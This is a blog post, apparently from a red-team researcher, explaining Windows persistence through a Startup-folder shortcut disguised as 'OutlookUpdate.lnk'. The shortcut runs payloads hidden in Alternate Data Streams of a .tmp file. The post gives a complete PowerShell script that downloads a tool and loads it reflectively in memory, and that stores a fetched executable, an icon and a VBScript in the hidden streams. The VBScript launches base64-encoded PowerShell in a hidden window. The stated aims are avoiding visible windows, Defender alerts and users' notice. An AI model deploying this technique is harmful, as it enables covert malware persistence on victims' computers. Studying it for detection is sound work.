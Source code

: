 ```yaml
---
layout: post
title: Persistence using Startup Folder II - Using Alternate Data Streams
excerpt_separator: <!--more-->
---
```


Following the previous post where we used a shortcut in the Startup Folder to execute files with the hidden attribute, I did some tests using Alternate Data Streams to store all payloads inside a seemingly benign file.

<!--more-->


Gist: 

- [Script to create files](https://gist.github.com/ricardojoserf/0b12b07218b232a261f8631a90c79f1a)

<br>

-------------------------------------------


## Previous work

In the [last post](https://ricardojoserf.github.io/startupfolder/) we found it is possible to create a shortcut in the Startup Folder, with:

- A custom icon for the shortcut, for which we download an icon which is stored with the "hidden" attribute

- A VBScript, which is generated during the script execution with the "hidden" attribute and is used to call the executable file

- An executable file which we download and store with the "hidden" attribute

The file executes without any window popping at any moment and no alerts generated by Windows Defender, which looked good enough.

However, if the user has set the options to view hidden files in File Explorer, the files would be visible and (most probably) raise an alarm. 


<br>


## Using Alternate Data Streams

After giving it some thought, storing all payload files (icon, VBScript and executable files) inside a fourth file was feasible, and I thought of two options:

- Extended Attributes - Related to this topic I coded [SharpEA](https://github.com/ricardojoserf/SharpEA) some months ago.

- Alternate Data Streams - Related to this topic I coded [SharpADS](https://github.com/ricardojoserf/SharpADS) also some months ago.


Both look promising choices, but for now I only used Alternate Data Streams. The main reason is that I found this great gist:

- [api0cradle - Execute from Alternate Data Streams](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

So let's see how we can achieve this: creating a bening temporary file (".tmp") in a non-administrative user's temporary folder and create 3 Alternate Data Streams to store in each of them the icon, VBScript and executable files. 


<br>

## Creating the code

The code is quite straightforward but I would like to explain some parts of it.

#### Directory and file variables

The file will be created with the value of the hostname variable and with the extension ".tmp". This is because it will be stored in the user's temporary folder, where there are many files with the same extension:

```
$Dir = "$($env:USERPROFILE)\Appdata\Local\temp"
$File = "$($env:COMPUTERNAME).tmp"
```

####  Load SharpADS assembly in memory

To make the process simpler I used SharpADS, which can be loaded in memory because it is coded in C#, but you can just use Powershell. To load the file in memory you can use:

```
$bytes = (New-Object System.Net.WebClient).DownloadData("$Url/$SharpADS")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$entryPointMethod.Invoke($null, (, [string[]] ('clear', "$Dir\$File")))
```

Next, you can use it to create an Alternate Data Stream which in this case will contain the bytes of the icon file:

```
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSico","$Url/$IcoFile")))
```

The script repeats the same code to store the VBScript and executable files in two other Alternate Data Streams.



#### Shortcut's TargetPath and Arguments

The parameters TargetPath and Arguments in the shortcut file define what is executed when it is clicked or in this case when Windows starts up. In last post, TargetPath value was the VBScript and Arguments was not used, which allowed to execute everything without any window popping up. 

However, it is not possible to use this approach this time. If you use the VBScript ADS value of the VBScript as TargetPath, the shortcut opens the file itself, in this case the ".tmp" file. Using other words, the $DATA Alternate Data Stream is opened by the shortcut file instead of the Alternate Data Stream where the VBScript is stored.

This is where api0cradle's gist saves the day. We find there are some alternatives to execute a payload in an ADS, the first one is executing the executable file directly using WMI: 

```
wmic process call create C:\path\file.tmp:ADS.exe
```
Translated to the Powershell shortcut creation, we would set the following values in a shortcut object $Shortcut: 

```
$Shortcut.TargetPath = "wmic"
$Shortcut.Arguments = "process call create $Dir\$File`:$ADSexe"
```

This works but there is a window popping up which looks suspicious. It can be improved if the parameter "/output:CLIPBOARD" is added:

```
$Shortcut.TargetPath = "wmic"
$Shortcut.Arguments = "/output:CLIPBOARD process call create $Dir\$File`:$ADSexe"
```

After many tests, the best alternative I found (for now) is using again the VBScript, but this time calling it with cscript in TargetPath and the file in the Arguments parameter:

```
$Shortcut.TargetPath = "cscript"
$Shortcut.Arguments = "$Dir\$File`:$ADSvbs"
```

A window pops up... but it is only a flash. It is not perfect but this was just a test so... eh... good enough :)

<br>

## Files needed in the web server

From what we explained, the web server must host:

- SharpADS.exe file, which you can find pre-compiled in [here](https://github.com/ricardojoserf/SharpADS/releases/tag/v1.0)

- The icon file. For example: "microsoft-outlook.ico"

- The executable file. For example: "calc.exe"

The shortcut and VBScript files are created by the script.


<br>

## Final script

This process is automated in the following [script](https://gist.github.com/ricardojoserf/0b12b07218b232a261f8631a90c79f1a):

```powershell
$Dir = "$($env:USERPROFILE)\Appdata\Local\temp"
$File = "$($env:COMPUTERNAME).tmp"
$ExeFile = "calc.exe"
$Url = "http://127.0.0.1:80"
$IcoFile = "microsoft-outlook.ico"
$SharpADS = "SharpADS.exe"
$ADSexe = "ADS.exe"
$ADSico = "ADS.ico"
$ADSvbs = "ADS.vbs"
$LnkFile = "OutlookUpdate.lnk"

## Create .TMP file
cmd /c "echo Updating file... [OK] > ""$Dir\$File"""

## Load SharpADS in memory
$bytes = (New-Object System.Net.WebClient).DownloadData("$Url/$SharpADS")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$entryPointMethod.Invoke($null, (, [string[]] ('clear', "$Dir\$File")))

## Save .ICON as ADS
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSico","$Url/$IcoFile")))

## Save .EXE as ADS
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSexe","$Url/$ExeFile")))

## VBS as ADS
$B64Path = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("wmic process call create '""$Dir\$File`:$ADSexe""'"))
$VBScontent = "Const HIDDEN_WINDOW = 0 `nstrComputer = ""."" `nSet objWMIService = GetObject(""winmgmts:"" & ""{impersonationLevel=impersonate}!\\"" & strComputer & ""\root\cimv2"") `nSet objStartup = objWMIService.Get(""Win32_ProcessStartup"") `nSet objConfig = objStartup.SpawnInstance_ `nobjConfig.ShowWindow = HIDDEN_WINDOW `nSet objProcess = GetObject(""winmgmts:root\cimv2:Win32_Process"") `nerrReturn = objProcess.Create( ""powershell -e $B64Path"", null, objConfig, intProcessID)"
$entryPointMethod.Invoke($null, (, [string[]] ('write', "$Dir\$File","$ADSvbs",$VBScontent)))

## Create .LNK
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$($env:USERPROFILE)\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\$LnkFile")
### Shortcut will execute cscript $Dir\$File:ADS.vbs
$Shortcut.TargetPath = "cscript"
$Shortcut.Arguments = "$Dir\$File`:$ADSvbs"
#### $Shortcut.TargetPath = "wmic"
#### $Shortcut.Arguments = "process call create $Dir\$File`:$ADSexe"
$Shortcut.IconLocation = "$Dir\$File`:$ADSico"
$Shortcut.Save()

## Check file and ADS values
echo "File created in path $Dir\$File"
Get-Item -Stream * $Dir\$File | select Stream,Length
```

<br>